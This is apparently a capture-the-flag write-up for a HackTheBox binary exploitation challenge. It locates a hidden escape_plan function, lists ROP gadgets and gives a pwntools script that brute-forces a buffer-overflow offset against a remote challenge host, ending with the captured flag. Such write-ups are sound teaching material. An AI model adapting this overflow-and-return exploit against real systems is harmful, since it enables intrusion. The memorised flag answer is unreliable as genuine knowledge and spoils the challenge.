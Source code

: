 ```yaml
---
created: 2024-07-17T02:27
updated: 2024-07-17T04:15
tags:
  - rop
---
```


We can trace where `flag.txt` is being read with xrefs.
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1721197843/2024/07/e62b4570083b8286b45a72507f1b0359.png)

We have to jump to `0x00401255` `escape_plan`.

Reading `main`.

```cpp
iVar1 = strncmp(s1, "69", 2);
if (iVar1 != 0) {
	iVar1 = strncmp(s1, "069", 3);
	if (iVar1 != 0) goto code_r0x004015da;
}
```

Using `ROPgadget` to get the ret addresses.

```
Gadgets information
============================================================
0x0000000000401016 : ret
0x0000000000401112 : ret 0x2e

Unique gadgets found: 2
```

## Solve Script

Payload is `'A' * N + RET + 0x00401255`.

```python
from pwn import *
context.log_level = 'error'

for i in range(100):
    if i % 100 == 0:
        print(i)
    conn = remote("94.237.53.113", 52654)
    conn.recvuntil(b'>> ')
    conn.sendline(b'069')
    conn.recvuntil(b'>> ')
    conn.sendline(b'A'*i+p64(0x401016)+p32(0x00401255))
    data = conn.recvall()
    conn.close()
    if data != b'\n\x1b[1;31m[-] YOU FAILED TO ESCAPE!\n\n' and data != b'':
        print('\n', i, data)
    print('.', end='', flush=True)
    i += 1
# HTB{3sc4p3_fr0m_4b0v3}
```
